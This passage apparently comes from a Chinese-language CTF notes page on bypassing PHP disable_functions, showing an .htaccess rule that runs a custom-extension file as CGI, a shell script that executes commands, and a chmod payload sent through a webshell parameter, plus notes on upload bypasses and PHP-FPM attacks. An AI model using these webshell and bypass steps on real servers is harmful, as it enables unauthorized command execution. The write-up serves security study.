 ```
Options +ExecCGI
AddHandler cgi-script .ant
```

然后新建 shell.ant 文件，写入要执行的命令：

```
#!/bin/sh
echo Content-type: text/html
echo ""
echo&&id
```

这个文件需要在linux环境下编写

上传到`/var/www/html`下

![image-20210210110320568](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271152389.jpeg)

此时我们的shell.xxx还不能执行，因为还没有权限，我们使用php的chmod()函数给其添加可执行权限

```
?ant=chmod('shell.ant',0777)
```

最后访问shell.ant文件便可成功执行命令

![image-20210210110924903](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271156154.jpeg)



点击开始按钮后，成功之后会创建一个新的虚拟终端，在这个新的虚拟终端中即可执行命令了。

###  2020De1CTF

https://www.anquanke.com/post/id/204345

文件上传：利用content_type绕过后缀名，php改了也不行

.htaccess绕过：

上传.htaccess,将所有文件都按照php文件来执行

一句话木马，短标签绕过。

## 通过攻击 PHP-FPM

看我这两篇文章

### 理论：

https://blog.csdn.net/unexpectedthing/article/details/123168001

### ctf题目：

https://blog.csdn.net/unexpectedthing/article/details/123137693

## 利用 imap_open() 绕过 
